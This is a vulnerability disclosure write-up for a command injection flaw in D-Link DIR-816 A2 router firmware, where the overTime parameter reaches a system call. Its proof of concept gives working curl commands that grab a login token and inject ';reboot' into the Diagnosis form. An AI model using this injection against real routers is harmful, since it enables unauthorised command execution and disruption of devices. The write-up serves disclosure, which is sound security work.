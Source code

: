 # Dlink DIR-816 Command injection vulnerability
## Overview
- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-816

## Vulnerability information
There is an Command injection vulnerability in Dlink DIR-816A2_FWv1.10CNB05, which can execute arbitrary command in route system.

## Affected version

![](pic/version.png "")

Figure shows the latest firmware ：A2_FWv1.10CNB05 of the router
## Vulnerability details
The hardware version can be found is A2 1.10 on the web.

![](pic/web.png "")

In goahead, we can find the code details in sub_45AC4C,the program passes the contents obtained by the overTime parameter to V5.

![](pic/code1.png "")

Then, format the matching content of V5 through the snprintf function into V10.

![](pic/code2.png "")

The V10 parameter is called by the function doSystembk().
There is a command injection vulnerability

## Vulnerability exploitation condition
Need to get cookie to execute the attack.

## Recurring vulnerabilities and POC
In order to reproduce the vulnerability, the following steps can be followed:
1. Connect physical devices
2. Attack with the following shell command

Poc is as follows
```bash
TOKENID=`curl -s http://192.168.0.1/dir_login.asp | grep tokenid | head -1 | grep -o 'value="[0-9]*"' | cut -f 2 -d = | tr -d '"'`
```
```bash
curl -i -X POST http://192.168.0.1/goform/Diagnosis -d tokenid=$TOKENID -d 'pingAddr=192.168.0.1' -d 'overTime=10;reboot'
```
After running poc, the effect is as follows: the router restarts, and there is no connection to the router.

![](pic/effect2.png "")


## CVE-ID
unsigned
